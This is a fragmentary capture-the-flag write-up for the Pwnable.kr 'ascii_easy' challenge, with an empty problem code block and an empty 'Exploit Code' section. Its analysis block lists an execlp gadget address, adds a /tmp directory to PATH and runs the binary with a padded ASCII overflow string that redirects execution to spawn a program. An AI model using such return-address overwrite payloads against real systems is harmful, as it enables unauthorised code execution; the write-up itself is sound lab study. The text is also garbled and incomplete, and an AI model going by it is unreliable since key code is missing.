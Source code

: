# Pwnable.kr ascii_easy CTF Writeup

## Problem Description  
The code provided for the challenge is as follows:

```c
```

## Analysis  

```asm
0x00b8a7f : nop; execlp
0x000973c : 63 00 (c /0)

export PATH="$PATH:/tmp/dalal"
./ascii_easy 'AAAAAAAAAAAAAAAAAAAABBBB@jaU<wVU'
```
## Exploit Code
